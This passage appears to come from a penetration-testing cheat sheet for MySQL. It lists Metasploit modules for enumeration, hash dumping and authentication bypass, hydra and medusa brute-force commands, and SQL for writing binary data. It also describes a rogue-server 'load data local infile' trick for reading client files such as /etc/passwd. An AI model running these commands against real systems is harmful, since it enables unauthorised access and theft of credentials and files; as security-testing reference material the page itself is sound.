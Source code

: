 Some of the enumeration actions require valid credentials

```bash
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Need Credential
msf> use auxiliary/admin/mysql/mysql_enum #Need Credential
msf> use auxiliary/scanner/mysql/mysql_schemadump #Need Credential
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Need Credential
```

<h2>Brute Forcing</h2>

```bash
hydra -L usernames.txt -P pass.txt <IP> mysql
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false
medusa -h <IP/Host> -u <username> -P <password_list> <-f | to stop medusa on first success attempt> -t <threads> -M mysql
```

<h2>Write any binary data</h2>

```sql
CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
CONVERT(from_base64("aG9sYWFhCg=="), BINARY)
```

<h2>MySQL arbitrary read file by client</h2>

Actually, when you try to load data local into a table the content of a file the MySQL or MariaDB server asks the client to read it and send the content. Then, if you can tamper a mysql client to connect to your own MyQSL server, you can read arbitrary files.

Please notice that this is the behaviour using:

```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

Notice the "local" word, because without the "local" you can get:

```sql
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

Initial PoC: [https://github.com/allyshka/Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)

In this paper you can see a complete description of the attack and even how to extend it to RCE: [https://paper.seebug.org/1113/](https://paper.seebug.org/1113/)

Here you can find an overview of the attack: [http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)

<h3>Mysql User</h3>

It will be very interesting if mysql is running as root:

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
```
